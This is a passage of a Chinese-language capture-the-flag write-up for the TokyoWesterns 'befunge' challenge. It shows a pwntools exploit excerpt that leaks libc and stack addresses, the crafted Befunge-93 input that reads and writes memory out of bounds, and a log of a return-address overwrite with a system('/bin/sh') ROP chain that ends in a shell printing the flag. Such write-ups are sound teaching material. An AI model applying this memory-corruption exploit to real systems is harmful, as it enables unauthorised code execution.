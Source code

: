 ```python exp_bef.py
    LD.address += ld_base
    log.info("libc_stack_end: "+hex(LD.symbols['__libc_stack_end']))
    stack_addr = leak_far_addr(LD.symbols['__libc_stack_end'], text_base, "stack addr")
    log.info("stack_addr: "+hex(stack_addr))
    
    pop_rdi = text_base + 0x000000000000120c
    ret_addr = stack_addr - 216
    log.info("ret_addr: "+hex(ret_addr))
    log.info("pop_rdi: "+hex(pop_rdi))
    log.info("bin_sh: "+hex(bin_sh))
    log.info("system: "+hex(system))
    
    # overwrite return address
    write_far_addr(ret_addr, text_base, "ret_addr", pop_rdi)
    write_far_addr(ret_addr+8, text_base, "ret_addr+8", bin_sh)
    write_far_addr(ret_addr+16, text_base, "ret_addr+16", system)

    r.interactive()
```
`bbb` 這個檔案是要給程式的 Befunge-93 instruction:  
```
>                                    v
v.g&&.g&&.g&&.g&&.g&&.g&&            <
>&&g.&&g.&&g.&&g.&&g.&&g.            v
v.g&&.g&&.g&&.g&&.g&&.g&&            <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.&&&*g.v 
v                                    <
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>&&&&*p&&&&*p&&&&*p&&&&*p&&&&*p&&&&*pv
v                                    < 
>                                    ^
```
可以看到最後有個無限迴圈，為的是要讓程式執行到最後跳出 do-while 迴圈，之後跑到 main 的結尾來做 ret，接上我們的 ROP chain。

跑起來大概長的像這樣:
<pre>
leaking libc_main byte : 1
leaking libc_main byte : 2
leaking libc_main byte : 3
................
writing ret_addr+16 byte 5 : b4
writing ret_addr+16 byte 6 : 7f
[*] Switching to interactive mode
Too many steps. Is there any infinite loops?
// ls
befunge
flag
// cat flag
TWCTF{It_1s_eMerG3nCy}
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 62839
</pre>  